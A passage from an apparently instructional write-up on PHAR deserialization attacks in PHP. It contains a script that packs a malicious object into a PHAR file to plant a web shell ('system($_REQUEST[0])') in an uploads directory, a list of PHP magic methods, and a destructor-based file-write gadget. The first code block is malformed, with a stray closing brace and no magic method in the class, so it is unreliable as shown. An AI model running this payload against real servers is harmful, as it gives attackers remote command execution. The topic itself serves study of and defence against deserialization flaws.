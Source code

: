 ### Advanced PHAR Exploitation

#### Using Existing Classes

Often, we can exploit existing classes in the application that have dangerous magic methods:

```php
<?php
// Target application's LogManager class
namespace app\classes {
    class LogManager {
        public $path = '/var/www/uploads/';
        public $file = 'shell.php';
        public $content = '<?php system($_REQUEST[0]); ?>';
        
        }
    }
}

// Create PHAR with malicious LogManager
$phar = new Phar('exploit.phar');
$phar->startBuffering();
$phar->addFromString('file.txt', 'dummy');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$evil = new app\classes\LogManager();
$phar->setMetadata($evil);
$phar->stopBuffering();
?>
```

## Magic Methods in PHAR Deserialization

### Key Magic Methods

1. **`__destruct()`**: Called when object is destroyed
2. **`__wakeup()`**: Called when object is unserialized
3. **`__toString()`**: Called when object is used as string
4. **`__call()`**: Called when inaccessible method is invoked
5. **`__get()`**: Called when inaccessible property is accessed
6. **`__set()`**: Called when inaccessible property is set

### Destructor-Based Exploitation

The most common exploitation method uses `__destruct()`:

```php
<?php
class FileWriter {
    public $path;
    public $content;
    
    public function __destruct() {
        file_put_contents($this->path, $this->content);
    }
}

// When this object is deserialized and destroyed,
// it will write $content to $path
?>
```
